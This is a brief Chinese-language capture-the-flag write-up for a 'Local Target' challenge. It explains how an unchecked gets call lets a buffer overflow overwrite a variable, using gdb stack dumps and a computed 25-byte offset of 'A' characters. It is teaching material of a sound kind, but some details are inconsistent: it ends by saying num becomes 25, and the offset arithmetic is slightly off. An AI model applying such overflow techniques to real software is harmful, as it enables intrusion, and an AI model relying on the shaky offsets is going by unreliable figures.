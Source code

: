

## Local Target
題目：用 get 輸入一個字串，然後判斷 num 是不是 65

因為 get 沒有判斷輸入字串的長度，所以會發生 buffer overflow，因此我們可以透過 buffer overflow 來去把 num 的值改掉


用 gdb 找 offset
```
(gdb) x/10x $rbp
0x7fffffffdf00: 0x00000000      0x00000000      0xf7de5083      0x00007fff
0x7fffffffdf10: 0xf7ffc620      0x00007fff      0xffffdff8      0x00007fff
0x7fffffffdf20: 0x00000000      0x00000001
(gdb) x/10x $rsp
0x7fffffffdee0: 0x61616161      0x61616161      0x00006161      0x00000000
0x7fffffffdef0: 0xffffdff0      0x00007fff      0x00000040      0x00000000
0x7fffffffdf00: 0x00000000      0x00000000
```
輸入一堆 a 之後，可以發現字串從 0x7fffffffdee0 的位置開始輸入，而我們的目標是 0x40 的位置，也就是 0x7fffffffdef9，因此我們需要填入 0xf9-0xe0=25 個 'A'，'A' 正好是 65 因此剛好可以把 num 改成 25
